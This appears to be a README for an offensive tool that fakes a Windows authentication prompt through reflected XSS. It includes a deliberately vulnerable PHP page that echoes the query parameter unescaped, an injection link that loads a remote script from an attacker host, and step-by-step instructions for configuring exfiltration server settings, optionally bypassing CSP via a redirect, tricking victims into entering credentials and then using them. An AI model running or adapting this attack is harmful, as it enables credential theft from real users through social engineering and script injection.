 # [Phish] Windows Authentication Prompt

* **NOTE**: two supported options (`winph.js`):

  * no CSP bypass - issue AJAX request

    ```
    ...
    var bypassCSP = false;
    ...
    ```

  * CSP bypass - issue hard redirect (uses `redir.php`)

    ```
    ...
    var bypassCSP = true;
    ...
    ```

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

### Vulnerable Page (`rxss.php`)

```
<!DOCTYPE html>
<html>
  <body>
    <h2>Test page</h2>
    <p>Test content</p>
    <?php echo '<div>' . $_GET['q'] . '</div>'; ?>
  </body>
</html>
```

## Exploitation Steps

1. [setup exploit] change payload variable values (`winph.js`; `redir.php`)

    `scheme` - exfiltration web server scheme (http/https)

    `attIP` - exfiltration web server IP address

    `attPort` - exfiltration web server port

    `bypassCSP` - use/do not use CSP bypass

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.13/rxss.php?q=<script src=http://192.168.5.13/winph.js></script>
    ```

    * **NOTES**:
      * `192.168.5.13` - target site
      * `192.168.5.13` - web server hosting payload

4. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

5. [post exploit] attacker leverages obtained credentials (scenario dependent)

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/Windows_phish_-_cred_exfil_-_1-1.png)

* [web browser rendering] Mozilla FireFox

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png)

* [web browser rendering] Google Chrome

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png)

* [web browser rendering] Microsoft Edge

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png)

